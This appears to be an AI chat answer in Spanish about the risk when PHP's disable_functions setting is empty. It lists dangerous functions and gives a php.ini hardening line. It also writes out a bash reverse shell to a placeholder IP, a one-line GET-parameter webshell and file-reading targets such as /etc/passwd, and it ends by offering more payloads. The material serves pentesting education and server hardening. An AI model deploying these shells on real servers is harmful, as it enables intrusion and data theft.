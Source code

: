 Cuando en un archivo `phpinfo()` (o en `php.ini`) ves que **`disable_functions` está vacío**, significa que **PHP tiene habilitadas todas las funciones por defecto**, **incluidas las peligrosas desde el punto de vista de seguridad**.

---

### 🎯 ¿Qué se puede conseguir si `disable_functions` está vacío?

Desde el punto de vista de **seguridad ofensiva (pentesting)** o incluso de **configuración segura del servidor**, esto abre **muchas posibilidades**.

Aquí tienes lo que podrías conseguir:

---

### 🧨 1. **Ejecución de comandos del sistema**

Puedes usar funciones como:

- `exec()`
    
- `shell_exec()`
    
- `system()`
    
- `passthru()`
    
- `popen()`
    
- `proc_open()`
    

Con ellas podrías ejecutar comandos directamente en el sistema operativo como si tuvieras acceso a la terminal del servidor.

✅ **Ejemplo**:

php

CopiarEditar

`echo shell_exec('id');`

---

### 🔁 2. **Lectura y escritura de archivos arbitrarios**

Puedes usar funciones como:

- `file_get_contents()`
    
- `fopen()`
    
- `fwrite()`
    
- `unlink()` (para borrar)
    
- `file_put_contents()`
    
- `copy()` y `rename()`
    

Esto te permitiría:

- Leer archivos sensibles como `/etc/passwd`, `.env`, etc.
    
- Escribir o sobrescribir archivos (incluso una webshell).
    

---

### 🛜 3. **Hacer peticiones HTTP desde el servidor**

- `file_get_contents("http://...")` (si allow_url_fopen está habilitado)
    
- `curl_exec()` / `curl_init()` (si CURL está habilitado)
    

Puedes usar esto para:

- Escanear la red interna (SSRF)
    
- Exfiltrar datos
    
- Hacer callback a tu listener (reverse shell)
    

---

### 🔓 4. **Reverse shells en PHP**

Puedes lanzar shells reversas porque puedes usar `exec()` o similares para enviar un payload:

php

CopiarEditar

`exec("/bin/bash -c 'bash -i >& /dev/tcp/tu-ip/puerto 0>&1'");`

O usar una simple webshell tipo:

php

CopiarEditar

`<?php echo shell_exec($_GET['cmd']); ?>`

---

### 🛑 5. **Escalada de privilegios o movimientos laterales** (dependerá del entorno)

Una vez con ejecución de comandos, si el usuario de PHP tiene permisos altos (como `www-data`, `apache`, o peor aún, root), puedes moverte por el sistema, ver otras webs alojadas, o incluso escalar.

---

### 📌 En resumen:

Si `disable_functions` está vacío:

✅ **Puedes ejecutar comandos del sistema.**  
✅ **Puedes leer/escribir archivos.**  
✅ **Puedes montar una webshell o reverse shell fácilmente.**  
✅ **Puedes hacer SSRF o llamadas externas.**  
🔴 **Es un riesgo crítico si hay algún vector de ejecución de PHP (file upload, LFI con `php://input`, eval, etc).**

---

Si estás del lado del **defensor**, lo recomendable sería rellenar `disable_functions` en `php.ini` con algo como:

ini

CopiarEditar

`disable_functions = exec,shell_exec,system,passthru,popen,proc_open`

¿Estás revisando esto desde un entorno real o es parte de un CTF/laboratorio? Puedo ayudarte más con payloads o escenarios concretos si quieres.